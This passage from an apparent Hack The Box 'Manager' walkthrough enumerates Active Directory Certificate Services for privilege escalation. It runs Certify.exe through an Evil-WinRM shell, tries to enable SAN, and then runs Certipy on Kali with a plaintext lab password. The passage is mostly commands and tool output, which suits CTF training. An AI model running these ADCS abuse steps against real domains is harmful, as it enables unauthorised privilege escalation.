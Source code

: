 ```
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None
<<Snipped>>
```
Yes We Do.

###### `Trying to perform EnableSAN using Certify.exe and Failed`
```
*Evil-WinRM* PS C:\ProgramData> .\Certify.exe find /vulnerable /ca:dc01.manager.htb\manager-DC01-CA /enablesan /restart
[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'
[*] Restricting to CA name : dc01.manager.htb\manager-DC01-CA

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
<<Snipped>>
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544
<Snipped>
[+] No Vulnerable Certificates Templates found!
```

Look at `USerSpecifiedSAN` is set to `Disabled`. We are not able to enable the SAN. We will now have to employ alternate techniques.
###### `Using Certipy on Kali to perform Enum`
```
# certipy find -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.236:636 - ssl
[+] Default path: DC=manager,DC=htb
[+] Configuration path: CN=Configuration,DC=manager,DC=htb
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     MANAGER.HTB\Everyone (MANAGER.HTB-S-1-1-0)
     MANAGER.HTB\Domain Users (S-1-5-21-4078382237-1492182817-2568127209-513)
     MANAGER.HTB\Users (MANAGER.HTB-S-1-5-32-545)
     MANAGER.HTB\Raven (S-1-5-21-4078382237-1492182817-2568127209-1116)
     MANAGER.HTB\Access Control Assistance Operators (MANAGER.HTB-S-1-5-32-580)
     MANAGER.HTB\Domain Computers (S-1-5-21-4078382237-1492182817-2568127209-515)
     MANAGER.HTB\Authenticated Users (MANAGER.HTB-S-1-5-11)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[+] Trying to resolve 'dc01.manager.htb' at '10.10.11.236'
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.236
[*] Got CA configuration for 'manager-DC01-CA'
[+] Resolved 'dc01.manager.htb' from cache: 10.10.11.236
```